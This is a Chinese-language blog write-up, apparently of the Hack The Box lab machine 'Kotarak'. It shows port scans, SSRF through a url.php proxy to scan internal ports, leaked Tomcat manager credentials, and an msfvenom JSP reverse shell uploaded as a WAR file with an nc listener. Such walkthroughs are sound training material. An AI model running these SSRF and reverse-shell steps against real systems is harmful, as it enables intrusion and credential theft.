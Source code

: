 ```yaml
---
title: 
categories:
- training
tags:
- training
---
```

<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title>kotarak（ssrf+上传）</title>
</head>
<body>
<h1 id="kotarak（tomcat-web-server）">Kotarak（tomcat web server）</h1>
<ul>
<li>端口扫描</li>
</ul>
<blockquote>
<p>22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)<br>
8009/tcp open  ajp13  Apache Jserv (Protocol v1.3)<br>
8080/tcp open  http    Apache Tomcat 8.5.5<br>
Service Info: <strong>OS: Linux</strong>; CPE: cpe:/o:linux:linux_kernel</p>
</blockquote>
<p>首先访问http://10.10.10.55:8080，显示HTTP Status 404 - /，状态码404not found。于是枚举目录。</p>
<blockquote>
<p>dirb <a href="http://10.10.10.55:8080">http://10.10.10.55:8080</a></p>
</blockquote>
<pre><code>+ http://10.10.10.55:8080/docs (CODE:**302**|SIZE:0)

+ http://10.10.10.55:8080/examples (CODE:302|SIZE:0)                         

+ http://10.10.10.55:8080/favicon.ico (CODE:200|SIZE:21630)                   

+ http://10.10.10.55:8080/host-manager (CODE:302|SIZE:0)                     

+ http://10.10.10.55:8080/manager (CODE:302|SIZE:0)
</code></pre>
<p>发现基本上都是302重定向。</p>
<p>于是访问下 <a href="http://10.10.10.55:8080/manager">http://10.10.10.55:8080/manager</a> （A地址）</p>
<p>发现302重定向到http://10.10.10.55:8080/manager/ （B地址）</p>
<p>并且，B地址的状态码是404。但是404页面有个提示，tomcat 7重构并且有些urls已经改变。所有使用管理应用的urls现在应该使用如下选项：</p>
<blockquote>
<p>/manager/html for the HTML GUI<br>
/manager/text for the text interface<br>
/manager/jmxproxy for the JMX proxy<br>
/manager/status for the status pages</p>
</blockquote>
<p>既然提示这么贴心了，那我们就按照所说的访问一下。</p>
<p>然后发现，所给的urls都需要<strong>登陆</strong>才能访问。</p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/2883590-ab8b47382ef604b6.png" alt=""></figure>
<p>再搜索下 Apache Tomcat 8.5.5。<a href="http://blog.csdn.net/posonrick/article/details/72566875">参考</a></p>
<p>tomcat是java web服务器</p>
<p>尝试访问：<a href="http://10.10.10.55:8080/index.jsp">http://10.10.10.55:8080/index.jsp</a> ，200ok。<br>
然后没有思路了。。最讨厌爆破了。。</p>
<p>终于等到了writeup出来的那一天，不过与此同时，靶机也下线了。</p>
<h1 id="ssrf-服务端请求伪造">SSRF-服务端请求伪造</h1>
<p>没有经验的小白先跟whale学习下。<br>
该漏洞经常出现在服务端，一些web应用程序经常从其他server获取信息。</p>
<blockquote>
<p>客户端 （去B服务器取回图片 !）——》A服务端（执行）————》B服务器（返回图片）————》A服务器（执行完毕）————》客户端（收到图片）</p>
</blockquote>
<h2 id="攻击方式：">攻击方式：</h2>
<blockquote>
<p>客户端（去扫描B服务器 ！）——》A服务端（执行）————》B服务器（返回数据包）————》A服务器（执行完毕）————》客户端（收到扫描结果）</p>
</blockquote>
<p>服务器没有过滤客户端的请求。本来设计的功能想法是好的，但是攻击者不打算<strong>以设计者的想法</strong>来使用这个功能。</p>
<p>代码不多说，本文只讲讲实践部分，至于更深层次的漏洞原理和代码片段还需要各位自行学习。</p>
<p>再次扫描，全端口扫描</p>
<blockquote>
<p>nmap -p- -sV 目标的ip</p>
</blockquote>
<p>作者扫描出了一个开放在60000的端口，类型是未知。但是我扫描的结果是，需要8个多小时。。想了半天才想起来，目标机器是在美国，对于网速实在不能苛求。。（感觉好坑，天朝就没有这种试验靶场吗）</p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/2.PNG" alt=""></figure>
<p>扫描出了以后，用浏览器访问。</p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/%E6%8D%95%E8%8E%B7.PNG" alt=""></figure>
<pre><code>使用这个私人的web浏览器匿名在网络冲浪，请不要滥用它。
</code></pre>
<ul>
<li>Trying</li>
</ul>
<pre><code>python -m SimpleHTTPServer
ifconfig
在本地开启服务器，查看本地ip。
</code></pre>
<p>尝试用浏览器上的该功能访问下本地，是否成功。<br>
输入<code>http://本地ip：8000</code><br>
浏览器跳转到一个地址<code>http://10.10.10.55:60000/url.php?path=http://本地ip:8000</code><br>
成功访问客户端本地地址。</p>
<ul>
<li>Trying</li>
</ul>
<p>然后尝试ssrf，提交<code>file:///etc/passwd</code><br>
返回<code>try harder</code><br>
尝试File FIlE  ,同样的返回结果。说明目标机可能用正则表达式限制了file这个字符。</p>
<ul>
<li>Trying<br>
尝试<code>http://localhost:60000</code>  返60000端口上的正常页面。<br>
因为端口扫描那一步<strong>客户端访问都是302重定向</strong>，需要登陆才能访问，于是我们通过60000端口上的“搜索”功能，绕过对客户端的限制。让服务器替我们获取想要的信息。</li>
</ul>
<h1 id="wfuzz">wfuzz</h1>
<ul>
<li>这是一个web扫描软件<br>
可以用<code>wfuzz -h</code> 查看使用方式<br>
我们使用下列参数，扫描服务器开放的端口<br>
<code>wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ</code></li>
</ul>
<p><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/3.PNG" alt=""><br>
图片中，2 Ch是响应的字符串，访问后发现没有任何有价值的东西，于是我们忽略它。<br>
<code>wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ</code><br>
扫描后，我们得到了非2 Ch的响应结果。<br>
看到了很多端口信息，因为<strong>客户端nmap扫描是远程访问</strong>，有 防火墙等等，所以在这里会得到更加详细的（在远程扫描不到的）端口信息。</p>
<ul>
<li>trying<br>
一个一个访问这些开放了的端口，<code>http://10.10.10.55:60000/url.php?path=http://localhost:端口</code><br>
在888端口，找到了一个备份页面backup。</li>
</ul>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/4.PNG" alt=""></figure>
<ul>
<li>Trying</li>
</ul>
<p>访问备份页面的地址<code>http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup</code><br>
url编码一下<code>http%3A%2f%2f10.10.10.55%3A60000%2furl.php%3Fpath%3Dhttp%3A%2f%2flocalhost%3A888%2f%3Fdoc%3Dbackup</code><br>
得到了可能是tomcat配置文件中的用户名密码。</p>
<p>（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）</p>
<p><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/5.PNG" alt=""><br>
我们用这个口令登陆端口扫描那一步获得的地址<code>manager/html</code></p>
<figure data-type="image"><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/6.PNG" alt=""></figure>
<h2 id="获取shell">获取shell</h2>
<p>刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。</p>
<p><img src="https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-29/7.PNG" alt=""><br>
用msfvenom生成一个payload，接下来要将它上传到目标机上运行。<br>
因为主页面上有上传功能，提示：</p>
<pre><code>deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
</code></pre>
<p>暗示了我们可以上传一个war类型的反弹shell。</p>
<blockquote>
<p>msfvenom -p java/jsp_shell_reverse_tcp LHOST=kali的ip LPORT=80 -f war &gt; ippsec.war</p>
</blockquote>
<p><code>War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。</code></p>
<ul>
<li>Trying<br>
成功上传——本地nc监听80端口<code>nc -lnvp 80</code>——浏览器访问payload地址，即可获得一个shell。</li>
</ul>
<p><code>python -c 'import pty;pty.spawn(&quot;/bin/bash&quot;)'</code></p>

</body>
</html>